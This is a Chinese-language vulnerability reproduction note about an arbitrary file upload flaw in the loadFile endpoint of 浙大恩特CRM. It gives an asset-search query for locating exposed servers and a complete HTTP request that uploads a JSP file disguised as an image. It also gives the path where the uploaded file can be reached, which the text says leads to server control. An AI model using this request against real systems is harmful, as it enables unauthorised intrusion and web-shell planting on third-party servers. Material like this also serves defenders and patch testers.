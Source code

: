 # 浙大恩特CRM loadFile任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">浙大恩特CRM是由浙江大学恩智浙大科技有限公司推出的客户关系管理（CRM）系统。该系统旨在帮助企业高效管理客户关系，提升销售业绩，促进市场营销和客户服务的优化。系统支持客户数据分析和报表展示，帮助企业深度挖掘客户数据，提供决策参考。浙大恩特CRM loadFile存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器控制权限。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ <font style="color:rgba(0, 0, 0, 0.9);">浙大恩特CRM</font>

# <font style="color:rgba(0, 0, 0, 0.9);">三、资产测绘</font>
+ hunter`app.name="浙大恩特 CRM"`
+ 特征

![1700034640158-a0b751ed-9499-471d-aef1-96b75913aa5a.png](./img/-A0quRyHPliStmt2/1700034640158-a0b751ed-9499-471d-aef1-96b75913aa5a-135267.png)

# 四、漏洞复现
```plain
POST /entsoft/CustomerAction.entphone;.js?method=loadFile HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0  uacq
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Length: 203

------WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Disposition: form-data; name="file";filename="as.jsp"
Content-Type: image/jpeg

<%out.print("test");%>
------WebKitFormBoundarye8FPHsIAq9JN8j2A--
```

![1700034671160-eec58ac8-f06c-4a3d-ab89-760a691e1eb2.png](./img/-A0quRyHPliStmt2/1700034671160-eec58ac8-f06c-4a3d-ab89-760a691e1eb2-488996.png)

根据响应可知上传文件位置

```plain
  /enterdoc/gesnum/00003509/photo/as.jsp
```

![1700034711122-37b79faa-ab5b-4d49-88d2-1a76bab4f5a7.png](./img/-A0quRyHPliStmt2/1700034711122-37b79faa-ab5b-4d49-88d2-1a76bab4f5a7-729649.png)



> 更新: 2024-02-29 23:55:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/emyt65hk122k6rpq>
